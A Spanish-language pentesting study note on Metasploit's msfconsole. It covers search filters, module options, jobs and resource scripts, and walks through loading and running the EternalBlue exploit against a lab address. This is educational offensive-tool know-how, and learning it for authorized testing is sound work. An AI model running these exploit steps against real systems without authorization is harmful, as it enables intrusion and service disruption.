

---
tags:
  - Pentesting/Explotacion
  - Metasploit
Fecha de actualización: 2026-07-18
Nota previa: "[[00 - Introducción a Metasploit]]"
Nota siguiente: "[[02 - Módulos]]"
Area: "[[Metasploit.base|Metasploit]]"
---
---

<mark style="background: #ADCCFFA6;">`msfconsole` es la interfaz principal de Metasploit</mark>: una consola interactiva que da acceso a todos los módulos, la base de datos, las sesiones y los plugins. Es la más completa de las interfaces y la que se usa en la práctica.

# Arrancar

```shell-session
$ msfconsole -q                 # -q: sin el banner ASCII
$ msfconsole -r script.rc        # ejecuta un resource script al arrancar
```

<mark style="background: #FFB8EBA6;">El primer arranque conviene hacerlo con la base de datos activa</mark> (`msfdb init` y PostgreSQL corriendo) — organiza todo el engagement, ver [[06 - Bases de datos y workspaces]].

# El flujo de trabajo

Explotar con MSF sigue siempre el mismo ciclo:



```shell-session
msf6 > search type:exploit platform:windows smb ms17
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > info
msf6 exploit(ms17_010_eternalblue) > show options
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 10.10.10.40
msf6 exploit(ms17_010_eternalblue) > set LHOST tun0
msf6 exploit(ms17_010_eternalblue) > run
```

Al hacer `use`, el *prompt* cambia para reflejar el módulo activo — así siempre sabes en qué contexto estás.

# Buscar módulos con `search`

<mark style="background: #FFB86CA6;">El framework trae miles de módulos; `search` con filtros es lo que lo hace manejable</mark>:

| Filtro | Ejemplo |
| --- | --- |
| `type:` | `search type:auxiliary` |
| `platform:` | `search platform:windows` |
| `cve:` | `search cve:2021-34527` |
| `name:` | `search name:eternalblue` |
| `rank:` | `search rank:excellent` |
| `arch:` | `search arch:x64` |

Se combinan: `search type:exploit platform:linux rank:excellent samba`. Cada resultado trae un índice numérico que se puede usar directamente: `use 0`.

> [!important]+ El campo `rank` importa
> Cada exploit tiene un *ranking* de fiabilidad (`excellent`, `great`, `good`… hasta `manual`). <mark style="background: #8000E1A6;">`excellent`/`great` rara vez tumban el servicio; los de rank bajo pueden crashear el objetivo</mark>. En producción, prioriza siempre los de rank alto — un exploit que deja un servicio caído es un incidente, no un éxito.

# Configurar el módulo

```shell-session
msf6 exploit(...) > show options          # parámetros requeridos (Required=yes)
msf6 exploit(...) > set RHOSTS 10.10.10.40
msf6 exploit(...) > setg LHOST tun0        # setg: global, persiste entre módulos
msf6 exploit(...) > unset RHOSTS           # limpia un valor
msf6 exploit(...) > show targets           # ver [[03 - Targets]]
msf6 exploit(...) > show payloads          # payloads compatibles
```

<mark style="background: #FFB8EBA6;">`setg` (set global) es un ahorro de tiempo enorme</mark>: fija `LHOST`, `RHOSTS` o `PROXIES` una vez y se aplican a todos los módulos de la sesión.

# Ejecutar y gestionar el contexto

```shell-session
msf6 exploit(...) > run           # o 'exploit'
msf6 exploit(...) > exploit -j    # -j: lanza en segundo plano (job)
msf6 exploit(...) > back          # sale del módulo
msf6 > sessions                   # lista sesiones abiertas (ver nota 08)
msf6 > jobs                       # lista jobs/handlers en background
msf6 > connect 10.10.10.40 443    # cliente tipo netcat integrado
```

# Productividad

- **Tab-completion**: autocompleta módulos, opciones y valores. Imprescindible.
- **Resource scripts** (`.rc`): un fichero con comandos msfconsole que se ejecutan en secuencia (`msfconsole -r x.rc` o `resource x.rc`). Base de la automatización — se retoma en [[13 - Arsenal - automatización y alternativas]].
- **`help <comando>`** y **`banner`**, **`version`** para orientarse.

> [!info]+ Fuentes
> [docs.metasploit.com](https://docs.metasploit.com/) (documentación oficial de Rapid7) · [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/) · [HackTricks – Metasploit](https://book.hacktricks.xyz/).

Con la consola dominada, el siguiente paso es entender qué son exactamente esos [[02 - Módulos|módulos]] que estamos usando.
